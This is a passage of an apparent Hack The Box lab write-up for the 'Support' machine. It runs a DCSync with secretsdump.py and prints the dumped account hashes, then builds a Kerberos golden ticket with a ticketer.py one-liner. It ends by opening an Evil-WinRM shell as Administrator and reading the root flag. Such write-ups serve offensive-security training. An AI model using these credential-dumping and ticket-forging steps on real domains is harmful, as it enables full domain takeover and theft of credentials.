 
### Fix the ticket authentication issue via golden ticket

Dcsync first with the service ticket via kerberos authentication

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ secretsdump.py -k dc.support.htb -outputfile secretsdump
Impacket v0.12.0.dev1+20230921.20754.9c8f344 - Copyright 2023 Fortra

[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

Craft golden ticket via my sweat **golden ticket one liner**

```bash
export DOMAIN="$(pt get domain)";export AESKEY=$(cat secretsdump.ntds.kerberos|grep krbtgt|head -n1|cut -d":" -f3); export DOMAINSID=$(lookupsid.py $domain/'Administrator'@$DOMAIN 1 -hashes '0:'$(cat secretsdump.ntds|grep Administrator|cut -d ":" -f 4)|tail -n1|cut -d ":" -f 2| xargs); ticketer.py -aesKey $AESKEY -domain-sid $DOMAINSID -domain $DOMAIN Administrator
```

^f4e2dd

Now it works!

```ruby
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ evil-winrm -r support.htb -i dc.support.htb

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support.htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
6cbfa6f8c17ef76560acf4e5c355fe6a
```


# Additional
---

## Oneliner to check juicy info from ldap

